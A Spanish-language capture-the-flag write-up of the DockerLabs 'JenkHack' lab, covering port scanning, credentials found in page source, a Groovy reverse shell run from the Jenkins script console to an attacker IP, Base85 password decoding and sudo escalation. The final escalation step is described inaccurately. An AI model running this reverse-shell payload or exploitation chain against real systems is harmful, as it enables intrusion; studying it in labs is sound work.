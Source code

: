 # Informe de Penetration Testing – Máquina *JenkHack*

**Nivel:** Fácil
**Objetivo:** Obtener acceso root en la máquina vulnerable

![Logo](/JenkHack/Imagenes/Logo.jpeg)

---

## 1. Despliegue de la Máquina

Se descarga la máquina vulnerable desde el portal de DockerLabs, obteniendo un archivo comprimido llamado `jenkhack.zip`. Procedemos a descomprimirlo con el siguiente comando:

```bash
unzip jenkhack.zip
```

Luego, se despliega el contenedor utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh jenkhack.tar
```

![Despliegue](/JenkHack/Imagenes/Despliegue.jpeg)

Una vez desplegado, verificamos la conectividad hacia la máquina vulnerable con un simple ping:

```bash
ping -c1 172.17.0.2
```

![Ping](/JenkHack/Imagenes/Ping.jpeg)

---

## 2. Escaneo de Puertos

Realizamos un escaneo de puertos completo usando Nmap para identificar los servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se identificaron los siguientes puertos abiertos: `80`, `443`, y `8080`.

![Puertos Abiertos](/JenkHack/Imagenes/Puerto.jpeg)

Con mi script personalizado `extractPorts`, extraigo los puertos abiertos y realizo un escaneo más profundo para obtener las versiones de los servicios:

```bash
nmap -sV -sC -p80,443,8080 172.17.0.2 -oG target.txt
```

![Servicios Detectados](/JenkHack/Imagenes/Servicios.jpeg)

---

## 3. Análisis Web

### Puerto 80 (HTTP)

Al acceder mediante navegador al puerto 80, observamos una página web sencilla.

![Página Web](/JenkHack/Imagenes/Pagina.jpeg)

### Puertos 443 y 8080

En el puerto 8080 se encuentra una interfaz de inicio de sesión que parece ser Jenkins. Al intentar autenticar, redirige a la página principal en el puerto 80 si las credenciales son válidas.

![Interfaz de Inicio de Sesión](/JenkHack/Imagenes/Registro.jpeg)

---

## 4. Revisión de Código Fuente y Credenciales

Realicé un análisis de código fuente del HTML alojado en el puerto 80. En el mismo se encontraron posibles credenciales embebidas:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Código Fuente con Credenciales](/JenkHack/Imagenes/Fuente.jpeg)

Como solo había dos posibles valores, realicé un ataque de fuerza bruta manual combinando las credenciales. Logré iniciar sesión correctamente con:

* Usuario: `jenkins-admin`
* Contraseña: `cassandra`

![Sesión Iniciada](/JenkHack/Imagenes/Sesion.jpeg)
![Jenkins Panel](/JenkHack/Imagenes/Jenkins.jpeg)

---

## 5. Ejecución de Reverse Shell

Para obtener una shell inversa, primero configuramos un listener en la máquina atacante:

```bash
sudo nc -lvnp 4444
```

![Escucha Netcat](/JenkHack/Imagenes/Escucha.jpeg)

Dentro del panel de Jenkins, navegamos a:

`Administrador de Jenkins` → `Consola de scripts`

Allí ejecutamos el siguiente código Groovy para generar una reverse shell:

```groovy
def cmd = ["/bin/bash", "-c", "bash -i >& /dev/tcp/192.168.1.10/4444 0>&1"]
def proc = new ProcessBuilder(cmd).redirectErrorStream(true).start()
proc.waitFor()
```

> Asegúrate de reemplazar `192.168.1.10` con la IP de tu máquina atacante.

![Consola Jenkins](/JenkHack/Imagenes/Consola.jpeg)
![Reverse Shell](/JenkHack/Imagenes/RevelShell.jpeg)

---

## 6. Post-Explotación

Ya dentro del sistema, identificamos que estamos dentro del contenedor como el usuario `jenkins`.

Navegando al directorio `/var/www/jenkhack` encontramos un archivo `note.txt` que contenía una cadena sospechosa codificada:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

![Contenido del Archivo](/JenkHack/Imagenes/Terminal.jpeg)

La cadena parece estar codificada en Base85. Utilizamos Python para decodificarla:

```bash
python3
```

```python
import base64
base64.a85decode("C1V9uBl8!'Ci*`uDfP")
```

Esto reveló el texto plano: `jenkinselmejor`.

![Decodificación Base85](/JenkHack/Imagenes/Bash85.jpeg)

Estas nuevas credenciales (`jenkhack:jenkinselmejor`) nos permitieron cambiar de usuario en la máquina:

```bash
su jenkhack
```

---

## 7. Escalada de Privilegios

Con el nuevo usuario, verificamos los permisos `sudo`:

```bash
sudo -l
```

Esto reveló que teníamos permisos para ejecutar comandos como root sin contraseña. Aprovechamos esto para crear un script Bash que nos proporcionara un shell:

```bash
rm bash.sh
echo -e "#!/bin/bash\n\nexec /bin/bash" > bash.sh
chmod +x bash.sh
./bash.sh
```

![Evidencia Total](/JenkHack/Imagenes/ALL.jpeg)

Esto nos dio acceso root al sistema.

![Acceso Root](/JenkHack/Imagenes/Root.jpeg)

---

## Conclusión

La máquina vulnerable *JenkHack* permitió practicar varias fases del hacking ético:

* Reconocimiento con Nmap.
* Análisis web manual.
* Descubrimiento de credenciales en código fuente.
* Uso del panel de Jenkins para ejecutar comandos maliciosos.
* Decodificación de una contraseña en Base85.
* Escalada de privilegios mediante `sudo`.

Esta máquina es excelente para principiantes que deseen familiarizarse con Jenkins y técnicas comunes de explotación en contenedores Docker.
